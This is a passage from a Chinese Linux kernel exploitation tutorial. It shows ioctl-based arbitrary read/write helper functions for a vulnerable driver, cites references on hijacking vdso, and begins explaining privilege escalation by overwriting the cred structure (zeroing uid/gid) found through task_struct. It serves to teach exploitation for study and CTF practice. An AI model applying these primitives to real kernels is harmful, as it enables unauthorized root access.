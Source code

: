 ```
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,111,&arbWriteObj);
}
 
void arbitrary_write(int devFD,int len,char *buf,size_t addr)
{
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,222,&arbWriteObj);
} 
```

参考：

 

[(15 条消息) linux kernel pwn 学习之劫持 vdso_seaaseesa 的博客 - CSDN 博客](https://blog.csdn.net/seaaseesa/article/details/104694219?ops_request_misc=%7B%22request%5Fid%22%3A%22163469082516780357227209%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=163469082516780357227209&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-7-104694219.pc_v2_rank_blog_default&utm_term=kernel&spm=1018.2226.3001.4450)

 

还有 bsauce 师傅的简书：https://www.jianshu.com/p/07994f8b2bb0

### 2. 劫持 cred 结构体

#### (1) 前置知识

这个没啥好讲的，就是覆盖 uig 和 gid 为零蛋就行，唯一需要的就是寻找 cred 的地址。

#### (2) 寻找地址

##### [](#①利用prctl函数)①利用 prctl 函数

task_srtuct 结构体是每个进程都会创建的一个结构体，保存当前进程的很多内容，其中就包括当前进程的 cred 结构体指针。

```
//version 4.4.72
 
struct task_struct {
    //............................................
/* process credentials */
    const struct cred __rcu *ptracer_cred; /* Tracer's credentials at attach */
    const struct cred __rcu *real_cred; /* objective and real subjective task
                     * credentials (COW) */
    const struct cred __rcu *cred;    /* effective (overridable) subjective task
                     * credentials (COW) */
    char comm[TASK_COMM_LEN]; /* executable name excluding path
                     - access with [gs]et_task_comm (which lock
                       it with task_lock())
                     - initialized normally by setup_new_exec */
    //............................................
}

```
